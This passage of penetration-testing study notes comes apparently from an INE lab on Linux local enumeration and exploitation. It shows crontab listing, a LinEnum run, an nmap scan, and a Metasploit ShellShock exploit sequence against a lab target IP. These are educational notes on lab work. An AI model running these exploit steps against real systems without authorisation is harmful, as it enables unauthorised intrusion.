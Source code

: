 ```bash
```

- Show cron jobs for the current user

```bash
crontab -l
```

## Automating Local Enum

> 🔬 INE LAB
>
> - Target IP: `192.19.208.3`
> - Automation Tools:
>   - [LinEnum - rebootuser](https://github.com/rebootuser/LinEnum)
>   - Metasploit Framework

**`LinEnum`** - bash script that *automates common Linux local enumeration*

```bash
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

### Enumeration & Exploitation

```bash
# Target Apache/ShellShock vuln
nmap -sV 192.19.208.3
	80/tcp open  http  Apache httpd 2.4.6 ((Unix))
```

```bash
service postgresql start && msfconsole -q
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS 192.19.208.3
setg RHOST 192.19.208.3
set TARGETURI /gettime.cgi
run
```

![](5-post-exploitassets/image-20230427224255144.png)
